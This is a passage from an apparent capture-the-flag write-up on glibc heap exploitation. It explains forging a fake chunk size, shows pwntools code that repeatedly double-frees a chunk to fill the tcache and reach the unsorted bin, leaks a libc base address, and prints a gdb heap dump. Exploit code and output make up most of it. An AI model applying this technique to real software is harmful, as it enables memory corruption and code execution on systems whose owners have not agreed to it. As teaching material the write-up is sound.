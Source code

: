 We allocate 6 chunks, we do need of 6 chunks because of the fake size we write on `chunk_2` (`&chunk_2` + `0xb0` = `0x555555608690`, in the last chunk near the top chunk). In the same way we craft a fake header in the body of the last chunk to avoid issues during the release of `chunk_2`. If you're not familiar with the security checks done by `malloc` and `free`, I would advise you to take a look at [this resource](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/security_checks).

Now that `chunk_2` has been tampered with a fake `0xb0` size, we just have to free it 8 times (to fill the tcache) to put it in the unsorted bin:
```py
freexalloc(2, 560, b"", doubleFree=True)
freexalloc(2, 560, b"", doubleFree=True)
freexalloc(2, 560, b"", doubleFree=True)
freexalloc(2, 560, b"", doubleFree=True)
freexalloc(2, 560, b"", doubleFree=True)
freexalloc(2, 560, b"", doubleFree=True)
freexalloc(2, 560, b"", doubleFree=True)

freexalloc(2, 560, b"", doubleFree=True)
# falls into the unsortedbin

show(2)

libc = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x3ebca0 # offset of the unsorted bin

stdin = libc + 0x3eba00
pwn.log.info(f"libc: {hex(libc)}")

"""
0x555555608560:	0x0000000000000000	0x0000000000000041
0x555555608570:	0x00005555556085a0	0x4141414141414141
0x555555608580:	0x4141414141414141	0x4141414141414141
0x555555608590:	0x4141414141414141	0x4141414141414141
0x5555556085a0:	0x0a41414141414141	0x0000000000000041
0x5555556085b0:	0x0000000000000000	0x0000000000000000
0x5555556085c0:	0x0000000000000000	0x0000000000000000
0x5555556085d0:	0x0000000000000000	0x0000000000000000
0x5555556085e0:	0x0000000000000000	0x00000000000000b1
0x5555556085f0:	0x00007ffff7dcfca0	0x00007ffff7dcfca0
0x555555608600:	0x4343434343434343	0x4343434343434343
0x555555608610:	0x0a43434343434343	0x0000000000000041
0x555555608620:	0x4444444444444444	0x4444444444444444
0x555555608630:	0x000000000000000a	0x0000000000000000
0x555555608640:	0x0000000000000000	0x0000000000000000
0x555555608650:	0x0000000000000000	0x0000000000000031
0x555555608660:	0x4545454545454545	0x4545454545454545
0x555555608670:	0x4545454545454545	0x4545454545454545
0x555555608680:	0x0a45454545454545	0x0000000000000031
0x555555608690:	0x00000000000000b0	0x0000000000000020
0x5555556086a0:	0x000000000000000a	0x0000000000000000
0x5555556086b0:	0x0000000000000000	0x0000000000020951

unsortedbin
all: 0x5555556085e0 —▸ 0x7ffff7dcfca0 (main_arena+96) ◂— 0x5555556085e0
tcachebins
0xb0 [  7]: 0x5555556085f0 —▸ 0x7ffff7dcfca0 (main_arena+96) —▸ 0x5555556086b0 ◂— 0x0
"""
```
